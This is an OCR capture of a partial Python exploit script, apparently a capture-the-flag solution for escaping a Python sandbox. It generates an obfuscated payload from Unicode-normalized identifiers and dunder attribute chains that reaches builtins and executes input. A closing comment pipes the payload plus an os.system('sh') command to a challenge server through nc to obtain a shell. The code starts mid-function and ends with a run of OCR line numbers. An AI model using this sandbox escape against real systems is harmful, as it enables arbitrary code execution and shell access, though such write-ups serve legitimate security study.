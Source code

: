 ```python
            offset = None.__dir__().index(name)
            return f'keys[{self(offset)}]'
        except ValueError:
            offset = None.__class__.__dir__(None.__class__).index(name)
            return f'keys2[{self(offset)}]'


_ = Generator()

names = []
chr_code = 0
for x in range(4700):
    while True:
        chr_code += 1
        char = unicodedata.normalize('NFKC', chr(chr_code))
        if char.isidentifier() and char not in names:
            names.append(char)
            break

offsets = {
    "__delitem__": 2800,
    "__getattribute__": 2850,
    '__dir__': 4693,
    '__repr__': 2128,
}

variables = ('keys', 'keys2', 'None_', 'NoneType',
             'm_repr', 'globals', 'builtins',)

for name, offset in offsets.items():
    names[offset] = name

for i, var in enumerate(variables):
    assert var not in offsets
    names[792 + i] = var


source = f'''[
({",".join(names)}) if [] else [],
None_ := [[]].__delitem__({_(0)}),
keys := None_.__dir__(),
NoneType := None_.__getattribute__({_.__class__}),
keys2 := NoneType.__dir__(NoneType),
get := NoneType.__getattribute__,
m_repr := get(
    get(get([],{_.__class__}),{_.__base__}),
    {_.__subclasses__}
)()[-{_(2)}].__repr__,
globals := get(m_repr, m_repr.__dir__()[{_(6)}]),
builtins := globals[[*globals][{_(7)}]],
builtins[[*builtins][{_(19)}]](
    builtins[[*builtins][{_(28)}]](), builtins
)
]'''.strip().replace('\n', '').replace(' ', '')

print(f"{len(source) = }", file=sys.stderr)
print(source)

# (python exp.py; echo '__import__("os").system("sh")'; cat -) | nc challenge.server port
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970717273
```
